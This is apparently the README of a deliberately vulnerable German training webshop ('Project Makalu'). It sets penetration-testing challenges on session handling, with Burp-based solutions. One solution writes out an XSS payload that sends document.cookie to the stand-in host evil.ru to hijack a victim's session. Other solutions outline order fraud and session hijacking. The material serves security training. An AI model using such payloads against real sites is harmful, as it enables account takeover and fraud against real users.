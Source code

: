 [![Build Status](https://travis-ci.org/BenjiTrapp/Project-Makalu.svg?branch=master)](https://travis-ci.org/BenjiTrapp/Project-Makalu)
[![Dependency Status](https://dependencyci.com/github/BenjiTrapp/Project-Makalu/badge)](https://dependencyci.com/github/BenjiTrapp/Project-Makalu)

# Project [Makalu](https://de.wikipedia.org/wiki/Makalu) - An unsecure Webshop with an intentional broken Session Handling
Im Zuge des neuen Online Shops der **anna group** wird auch ein neues Session Handling benötigt. Der hier vorliegende 
Code steht kurz vor dem produktiven Livegang. Trotz der rapiden Entwicklung machen sich erhebliche Zweifel breit, ob
 nicht etwas wichtiges vergessen wurde?

### Motivation
Moderne WebApps verfügen teilweise über eine enorme Komplexität. Um den Kunden vor mögliche Angriffe zu schützen, benötigen unter anderem Requests die an eine WebApp gestellt werden eine Login-Session. Ein Request benötigt üblicherweise die Daten aus einer 
vorherigen Response (bspw. CSRF tokens). Die empfangenen Daten in einem Teilrequest, können auch einige Requests später noch 
benötigt werden wie zum Beispiel während des Checkout Prozesses. Dies macht den Einsatz von "unique" Namen/IDs während der Erstellung eines Requests notwendig. 
 
**Randbemerkung**: Das Fuzzing bspw. im Kontext eines CSRF tokens, erzeugt eine Vielzahl von Daten sowie Aufrufe innerhalb der WebApplikation. Dadurch kann im Falle eines Angriffs, die Performance der gesamten Applikation beeinträchtigen. Die Performance selbst,
steht in diesem Penetrationtests NICHT im Fokus, kann aber je nach gewählter Fuzzing-Methode zu einem "Problem" für den Angriff werden. 

## Problemstellung:
 Helfe der **anna group** durch einen Penetrationtest die Sicherheit des Session Handlings zu prüfen. Um diesen Wunsch
 nachzukommen muss zunächst die Applikation installiert und betriebsbereit gemacht werden. Hierbei hilft 
 sicherlich folgende Anleitung weiter:
 
##### Installation & starten der WebApp mittels Docker
```
1. Git repository pullen von GitHub
2. 'compose up'
3. Öffne im Browser: "http://localhost:4711"
```

#####  [Credentials](https://www.heise.de/security/meldung/hallo-ist-meistgenutztes-deutsches-Passwort-auf-Platz-zehn-steht-ficken-3579567.html): user/hallo

## Durchführung des Penetrationtests
Für den Test existiert folgende Use Cases. Zur Durchführung des Penetrationtests kann das File 
"/doc/Burp.burp-projectopts.json" mittels [Burp](https://portswigger.net/burp/freedownload/) als Projekt 
geladen werden. In der JSON-Datei sind alle "session handling rules" enthalten, um die nachfolgenden Challenges
zu lösen. Die Challenges können natürlich auch mit anderen Tools wie bspw. OWASP ZAP gelöst werden.

#### Use Case: Bau dir einen eigenen CSRF Token
```
[Challenge]: Der Übertragene CSRF Token muss übereinstimmen und mit jedem POST Request übertragen werden

[Lösung]:
* Capture des Requests von einem bestehenden CSRF Token
* Erstelle eine "Run a Macro" session handling Regel
    * Der Scope liegt auf den Parameter des CSRF Tokens
    * Update den CSRF Token NUR im aktuell gestellten Request
```

#### Use Case: Übernehme die Session eines anderen Users mittels [XSS-Lücke](https://www.owasp.org/index.php/Testing_for_Cross_site_scripting)

```
[Challenge]: Finde ein Eingabefeld, dass eine XSS-Lücke enthält und klaue damit die Session eines ahnungslosen Opfers

[Lösung]:
* Platziere an einer geeigneten Stelle ein inline JavaScript wie beispielsweise: 
    <script>window.location="http://evil.ru/?cookie=" + document.cookie;</script> 
* Extrahiere den erbeuteten Cookie aus dem Request und übernehme die Session 
```

#### Use Case: Behalte die Login-Session offen
```
[Challenge]: Mit einer Wahrscheinlichkeit von 5% beenden WebApplikationen die Login-Session

[Lösung]:
* Capture des Login-Requests in einem Makro
* Erstelle eine "Check Session is Valid" Regel
    * Erstelle einen Request
    * Prüfe den Response-Body nach einem Benutzernamen für die gültige Session
    * Alternativ: Prüfe die Umleitung der Login-URL (die Session muss für diesen Fall invalide sein)
    * Spiele das aufgezeichnete Makro ab bei der Invalidierung der Session
```
    
#### Use Case: Begehe Bestellbetrug 
```
[Challenge]: Führe multiple Requests durch bis die finale Bestellbestätigung erscheint

[Lösung]:
* Führe alle Requests durch bis einer mit Hilfe eines Makros gefuzzed werden kann.
* Finalisiere den Bestellbetrug mit einem "Run a Post-Request Macro", dass den aktuellen Request zurück gibt
* Definiere einen engen Definitionsbereich (URL, Parameter)
```

#### Use Case: Löschen von Eingefügten Daten
```
[Challenge]: Aktuell sind nur drei Einträge erlaubt. Um dies etwas gerechter zu machen, soll die "add" 
Funktionalität gefuzzed werden

[Lösung]:
* Lösche nachträglich gerade hinzugefügte Notizen 
    * Erstelle ein POST-request Makro, dass die Object ID extrahiert und anschließend den Löschvorgang anstößt.
```
